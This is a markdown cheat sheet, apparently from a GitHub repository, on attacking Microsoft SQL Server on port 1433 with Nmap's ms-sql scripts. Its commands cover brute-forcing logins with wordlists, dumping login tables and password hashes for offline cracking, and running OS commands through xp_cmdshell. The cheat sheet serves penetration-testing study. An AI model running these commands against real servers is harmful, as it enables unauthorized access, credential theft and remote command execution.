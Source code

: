 

# 🧠 MSSQL Enumeration with Nmap Scripts

When a target is suspected to be running **Microsoft SQL Server (MSSQL)**, port **1433** is typically used for the service. Nmap provides a powerful set of scripts (`ms-sql-*`) to enumerate, brute-force, and exploit MSSQL services.

---

## 🔍 Step-by-Step MSSQL Enumeration

### 1. Basic Version Detection

```bash
nmap <IP> -p 1433 -sV
```

**Explanation**:
Scans the MSSQL default port (**1433**) and detects the version of the running service.

---

### 2. Get MSSQL Instance Information

```bash
nmap <IP> -p 1433 --script ms-sql-info
```

**Explanation**:
Gathers general information about the MSSQL server, including instance name, hostname, service pack, etc.

---

### 3. Get NTLM Info from SQL Server

```bash
nmap <IP> -p 1433 --script ms-sql-ntlm-info --script-args mssql-instance-port=1433
```

**Explanation**:
Retrieves **NTLM authentication information** from the server using SQL Server services. Helpful for Windows environment reconnaissance.

---

### 4. Brute Force MSSQL Credentials

```bash
nmap <IP> -p 1433 --script ms-sql-brute --script-args userdb=/path/to/userlist.txt,passdb=/path/to/passlist.txt
```

**Explanation**:
Performs brute-force attack against the MSSQL server using username and password wordlists.


---

### 5. Check for Empty Password Logins

```bash
nmap <IP> -p 1433 --script ms-sql-empty-password
```

**Explanation**:
Checks if any accounts are configured with **no password**, a common misconfiguration.

---

### 6. Run Arbitrary SQL Queries (Authenticated)

```bash
nmap <IP> -p 1433 --script ms-sql-query --script-args \
  mssql.username=admin,mssql.password=passwd, \
  ms-sql-query.query="SELECT * FROM master.syslogins" \
  -oN output.txt
```

**Explanation**:
Executes a custom SQL query (in this case, dumps user login info) using valid credentials. Saves output to a file.


---

### 7. Dump Password Hashes from MSSQL

```bash
nmap <IP> -p 1433 --script ms-sql-dump-hashes --script-args \
  mssql.username=admin,mssql.password=password
```

**Explanation**:
Dumps password hashes stored in the database. Useful for offline password cracking.

---

### 8. Execute OS Commands via xp\_cmdshell

```bash
nmap <IP> -p 1433 --script ms-sql-xp-cmdshell --script-args \
  mssql.username=admin,mssql.password=password, \
  ms-sql-xp-cmdshell.cmd="ipconfig"
```

**Explanation**:
Executes **OS-level commands** using the extended stored procedure `xp_cmdshell` (if enabled), which can lead to full **RCE (Remote Command Execution)**.


---

## ✅ Summary Checklist

| Task                    | Command Used                     |
| ----------------------- | -------------------------------- |
| Version Detection       | `-sV`                            |
| Instance Info           | `--script ms-sql-info`           |
| NTLM Info               | `--script ms-sql-ntlm-info`      |
| Brute Force Credentials | `--script ms-sql-brute`          |
| Empty Password Check    | `--script ms-sql-empty-password` |
| Custom SQL Query        | `--script ms-sql-query`          |
| Dump Hashes             | `--script ms-sql-dump-hashes`    |
| OS Command Execution    | `--script ms-sql-xp-cmdshell`    |

---

> ⚠️ **Tips**:
>
> * Always start with version detection (`-sV`) and use `--script-help <script>` to see script documentation.
> * Make sure MSSQL port 1433 is open and accessible.
> * Use strong wordlists for brute-force: try `/usr/share/wordlists/rockyou.txt`.
